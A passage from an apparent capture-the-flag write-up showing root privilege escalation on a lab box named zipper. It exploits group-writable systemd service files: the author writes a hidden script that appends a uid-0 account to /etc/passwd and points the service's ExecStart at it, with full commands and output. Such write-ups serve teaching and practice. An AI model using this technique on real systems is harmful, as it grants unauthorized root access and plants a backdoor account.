     [Timer]
    OnBootSec=15s
    OnUnitActiveSec=5m
    Unit=purge-backups.service

    [Install]
    WantedBy=zabbix-agent.service



In the first section, `After`, `Requires`, and `BindsTo` say that this
service will only run after `zabbix-agent.server`, and only while it is
running. I can see this if I run
`/home/zapper/utils/zabbix-service stop`, I stop seeing the purge script
in `journalctl` as well.

In the second section, it defines that the service will start 15 seconds
after boot, and while active every 5 minutes.

#### Exploit

The flaw here is that while the service runs as root, both of these
files that define the service are writable by zapper:



    zapper@zipper:/etc/systemd/system$ ls -l purge-backups.*
    -rw-rw-r-- 1 root zapper 132 Sep  8 13:22 purge-backups.service
    -rw-rw-r-- 1 root zapper 237 Feb 21 09:15 purge-backups.timer



There are tons of ways to get to root from here. I'll add a root user to
/etc/passwd.

First, I'll create a script that does that:



    zapper@zipper:/dev/shm$ openssl passwd 0xdf
    ydmNDQhnaXn92

    zapper@zipper:/dev/shm$ echo -e '#!/bin/sh\n\necho "df:ydmNDQhnaXn92:0:0:root:/root:/bin/bash" >> /etc/passwd'
    #!/bin/sh

    echo "df:ydmNDQhnaXn92:0:0:root:/root:/bin/bash" >> /etc/passwd

    zapper@zipper:/dev/shm$ echo -e '#!/bin/sh\n\necho "df:ydmNDQhnaXn92:0:0:root:/root:/bin/bash" >> /etc/passwd' > .a.sh



Now I'll make a copy of the original into `/tmp`, and then update
`purge-backups.service`:



    zapper@zipper:/dev/shm$ cp /etc/systemd/system/purge-backups.service /tmp/

    zapper@zipper:/dev/shm$ vi /etc/systemd/system/purge-backups.service

    zapper@zipper:/dev/shm$ cat /etc/systemd/system/purge-backups.service
    [Unit]
    Description=Purge Backups (Script)
    [Service]
    ExecStart=/dev/shm/.a.sh
    [Install]
    WantedBy=purge-backups.timer
